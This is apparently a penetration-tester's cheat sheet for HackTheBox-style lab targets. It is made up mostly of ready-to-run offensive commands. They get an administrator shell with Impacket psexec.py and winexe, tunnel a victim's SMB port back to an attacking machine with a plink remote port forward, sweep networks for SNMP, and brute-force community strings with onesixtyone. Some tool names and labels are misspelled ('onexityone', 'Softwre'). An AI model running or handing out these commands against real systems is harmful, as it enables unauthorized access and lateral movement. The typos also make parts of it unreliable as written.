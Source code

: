 ## shell when we have the credentials
```
root@kali:# psexec.py secnotes/administrator:@secnotes.htb
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

Password:
```
## shell 2 when i have credentials
```
winexe -U Administrator //10.0.0.0 "cmd.exe"
```
If SMB is up locally but the port is closed externally, then try a remote port forward back to your attacking machine:
```
plink.exe -l sshproxy -pw sshproxy -R 445:127.0.0.1:445 10.10.10.10
winexe -U Administrator //127.0.0.1 "cmd.exe"
```

# SNMP  
### UDP 161 169
___

## snmp parameters
```
1.3.6.1.2.1.25.1.6.0    System    Processes
1.3.6.1.2.1.25.4.2.1.2    Runng    Programs
1.3.6.1.2.1.25.4.2.1.4    Processes       Path
1.3.6.1.2.1.25.2.3.1.4    Storage         Units
1.3.6.1.2.1.25.6.3.1.2    Softwre            Name
1.3.6.1.4.1.77.1.2.25    User           Accounts
1.3.6.1.2.1.6.13.1.3   TCP      Local          Ports
```
## MIB TREE
snmp management information base (mib) is a database containing information usually related to network management.

## scaning for snmp
```
nmap -sU --open -p 161 192.168.45.101-190 -oG mega-snmp.txt
```

## onesixtyone
```
root:kali echo public > comunity
root:kali echo private >> comunity
root:kali echo manager >> comunity
root:kali for ip in $(seq 200 254); do echo 192.168.56.$ip;done > ips
root:kali onexityone -c comunity -i ips
```

